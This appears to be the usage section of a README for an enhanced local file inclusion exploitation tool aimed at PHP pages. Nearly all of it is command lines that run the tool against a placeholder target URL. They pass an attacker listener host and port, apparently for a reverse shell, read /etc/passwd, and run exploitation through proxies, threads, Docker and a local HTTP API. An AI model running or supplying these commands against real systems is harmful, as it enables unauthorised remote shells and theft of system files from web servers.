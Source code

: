 ## 🎯 **Usage Examples**

### **Basic Usage**
```bash
# Automatic technique detection
python3 liffy_enhanced.py --url http://target/file.php?page= --auto --lhost 192.168.1.100 --lport 4444

# Specific technique
python3 liffy_enhanced.py --url http://target/file.php?page= --data --lhost 192.168.1.100 --lport 4444

# File reading
python3 liffy_enhanced.py --url http://target/file.php?page= --filter --file /etc/passwd
```

### **Advanced Usage**
```bash
# With proxy and custom User-Agent
python3 liffy_enhanced.py --url http://target/file.php?page= --auto \
  --lhost 192.168.1.100 --lport 4444 \
  --user-agent "Mozilla/5.0" \
  --proxy http://127.0.0.1:8080

# Multi-threaded exploitation
python3 liffy_enhanced.py --url http://target/file.php?page= --auto \
  --lhost 192.168.1.100 --lport 4444 \
  --threads 5

# With verbose logging
python3 liffy_enhanced.py --url http://target/file.php?page= --data \
  --lhost 192.168.1.100 --lport 4444 \
  --verbose --output liffy.log
```

### **Docker Usage**
```bash
# Build and run
docker build -t liffy-enhanced .
docker run -it --rm liffy-enhanced --help

# Using Docker Compose
docker-compose up -d
docker-compose exec liffy-enhanced python3 liffy_enhanced.py --help
```

### **API Usage**
```bash
# Start API server
python3 api_mode.py

# Execute via API
curl -X POST http://localhost:5000/api/execute \
  -H "Content-Type: application/json" \
  -d '{"target_url": "http://target/file.php?page=", "technique": "auto", "lhost": "192.168.1.100", "lport": 4444}'
```
